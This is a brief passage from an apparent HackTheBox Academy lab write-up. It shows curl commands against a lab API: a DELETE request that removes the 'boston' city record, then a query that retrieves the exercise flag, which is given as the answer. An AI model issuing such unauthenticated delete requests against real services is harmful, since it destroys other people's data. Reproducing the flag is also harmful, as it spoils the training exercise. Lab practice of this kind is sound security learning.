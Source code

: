 Delete the city of Boston. 

```bash
┌──(kali㉿kali)-[~]
└─$ curl -X DELETE http://157.245.42.82:30154/api.php/city/boston
```

Search for flag.

```bash
┌──(kali㉿kali)-[~]
└─$ curl -s http://157.245.42.82:30154/api.php/city/flag | jq 
[
  {
    "city_name": "flag",
    "country_name": "HTB{crud_4p!_m4n!pul4t0r}"
  }
]
```

**Answer:** `HTB{crud_4p!_m4n!pul4t0r}`

---
**Tags:** [[HackTheBox]] [[Academy]]